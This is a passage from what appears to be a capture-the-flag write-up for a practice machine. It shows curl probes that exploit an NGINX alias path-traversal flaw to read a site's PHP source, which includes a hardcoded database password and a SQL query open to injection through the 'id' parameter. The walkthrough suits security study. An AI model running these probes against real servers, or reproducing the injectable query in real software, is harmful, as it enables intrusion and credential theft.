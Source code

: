 #### Finding Source Code
On /dev, we get this text: "dev site has been move to his own server". We can guess that the directory structure is something like this:
```
/var/www/html/dev
```

We can check for path traversal in miuconfigured NGINX aliases. Test for this with:

```
curl -s -k -I https://www.nestedflanders.htb/dev/ | grep HTTP
200 OK

curl -s -k -I https://www.nestedflanders.htb/dev../ | grep HTTP
403 Forbidden
```

Different responses, probably is vulnerable, so we can the source code with the payload below.
```
curl -s -k https://www.nestedflanders.htb/dev../html/index.php
```

```php
<?php
$servername = "localhost";
$username = "nestedflanders";
$password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
$db = "neddy";
$conn = new mysqli($servername, $username, $password, $db);
$debug = False;

include "6fb17817efb4131ae4ae1acae0f7fd48.php";

function getTplFromID($conn) {
        global $debug;
        $valid_ids = array (25,465,587);
        if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {
                        $sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
        } else {
                $sql = "SELECT name FROM idname where id = '25'";
        }
        if ($debug) { echo "sqltpl: $sql<br>\n"; }

        $result = $conn->query($sql);
        if ($result->num_rows > 0) {
        while($row = $result->fetch_assoc()) {
                $ret = $row['name'];
        }
        } else {
                $ret = 'main';
        }
        if ($debug) { echo "rettpl: $ret<br>\n"; }
        return $ret;
}

function getPathFromTpl($conn,$tpl) {
        global $debug;
        $sql = "SELECT path from filepath where name = '".$tpl."'";
        if ($debug) { echo "sqlpath: $sql<br>\n"; }
        $result = $conn->query($sql);
        if ($result->num_rows > 0) {
                while($row = $result->fetch_assoc()) {
                        $ret = $row['path'];
                }
        }
```